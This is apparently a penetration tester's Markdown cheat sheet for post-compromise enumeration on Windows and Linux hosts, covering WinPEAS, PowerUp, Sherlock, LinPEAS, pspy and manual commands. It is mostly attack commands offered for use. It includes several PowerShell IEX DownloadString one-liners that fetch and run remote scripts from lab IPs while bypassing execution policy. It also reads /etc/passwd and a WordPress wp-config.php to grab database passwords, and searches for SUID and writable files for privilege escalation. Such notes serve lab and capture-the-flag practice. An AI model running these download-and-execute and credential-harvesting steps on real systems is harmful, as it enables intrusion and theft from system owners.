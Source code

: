 ## Enumeration

Run these scripts to quickly pilfer some info

### Windows

#### First steps

1. Always check your current user

   ```powershell
   whoami
   net user <username>
   whoami /groups
   whoami /priv
   ```

#### Automated

1. WinPEAS.exe (Requires some .net framework to be installed)

   ```bash
   # PS Command
   .\winPEAS | Out-File -Encoding ASCII winpeas.txt
   # CMD prompt
   winPEAS > winpeas.txt
   # OR
   powershell -c ".\winPEAS | Out-File -Encoding ASCII winpeas.txt"
   ```

2. PowerUp (From PowerSploit, requires Powershell)

   ```powershell
   # Running Locally
   powershell.exe -nop -exec bypass
   Import-Module .\PowerUp.ps1
   # Run all relevant checks and dump to a file
   Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
   
   # Running Locally (one-liner)
   powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks | Out-File -Encoding ASCII checks.txt}"
   
   # Running Remotely
   powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37/PowerUp.ps1') ; Invoke-AllChecks | Out-File -Encoding ASCII checks.txt"
   
   # Running Remotely & bypassing execution policy
   powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37/powerup.ps1') ; Invoke-AllChecks"
   ```
   
3. Sherlock.ps1 (Deprecated)

   ```powershell
   # Running Remotely
   powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.37/Sherlock.ps1') ; Find-AllVulns"
   
   # Running Locally
   powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
   
   # One page suggested running this from the cmd prompt to get the right Powershell version.  I think it doesn't work with -Command though, so I just removed that.
   @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Sherlock.ps1'))"
   ```
   
#### Manual Commands (Newer Ver):

```powershell
echo "*********************User Info*********************"
whoami
echo %username%
whoami /groups
whoami /priv
# User ernumeration
net user
net user %username%
net localgroup
net localgroup %groupname%

echo "*********************System Info*********************"
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
# You can also check the files below for Windows versions
type C:\Windows\System32\License.rtf
# For older Windows
type C:\Windows\System32\eula.txt

echo "*********************File Info*********************"
# Builds a tree-format listing of files
tree /f /a

echo "********************Network Info*********************"
netstat -ano
arp -a
ipconfig /all
# Firewall Rules
# Show current FW profile
netsh advfirewall show currentprofile

# Show all firewall rules
netsh advfirewall firewall show rule name=all

echo "*********************Task Info*********************"
# Scheduled Tasks
## Short ver
schtasks /query
## Long ver
schtasks /query /fo LIST /v

# Show running processes
tasklist /SVC
```

#### Manual Commands Windows (Older Ver)

```powershell
# Show firewall rules
netsh firewall show state
```

#### Domain Commands

```powershell
# Enumerate all local accounts
net user
# Enumerate all users in the domain
net user /domain
# Enumerate a specific user (ex. jeff_admin)
net user jeff_admin /domain
# Enumerate domain groups
net group /domain
```

### Linux

#### Automated

1. LinPEAS (/home/coyote/opt/enumeration/linux/linPEAS)

   ```bash
   # Kick off script
   ./linpeas.sh > linpeas.txt
   
   # View with
   less -r linpeas.txt
   ```

2. LinEnum (/home/coyote/opt/enumeration/linux/LinEnum)

   ```bash
   # Kick off script
   ./LinEnum.sh > linenum.txt
   ```

3. Bashark (/home/coyote/opt/enumeration/linux/Bashark)

   ```bash
   ./bashark.sh
   # Puts you into an interactive menu, doesn't always work
   ```

#### Processes

1. Use `pspy` to enumerate process that run periodically to catch scripts and hidden commands.
   BE SURE TO MAKE A NEW SHELL FOR THIS BECAUSE YOU CAN'T EXIT FROM IT, but you can kill it from the other shell.
   
   ```bash
   # This command will dump a ton of processes, so you will likely want to filter it.
   pspy64
   # You can use this with exactly one grep as well (stacking greps will not allow the output to show up), to find root commands containing python references, for instance.  I tried to background this, but it seemed to just catch the initial output and then nothing else after that.
   ./pspy64 | grep -E 'UID=0.*py'
   ```

#### Other Manual enumeration:

```bash
# User Info
id
cat /etc/passwd
sudo -l

# System Info
hostname
cat /etc/*release
uname -a
arch
env

# Network Info
ip a
ifconfig
route
routel
netstat -antpu
sockstat -l	# FreeBSD

# Process Info
ss -anp
ps aux
ls -lah /etc/cron*

cat /etc/crontab
# Writable Files
find / -writable -type f 2>/dev/null

# Files owned by a certain group
find / -group GROUP_NAME 2>/dev/null

# SUID/SGID
find / -perm -u=s -type f 2>/dev/null
```

#### Grab WordPress passwords

```bash
# Get DB username/password
cat /var/www/html/wp/wp-config.php
```

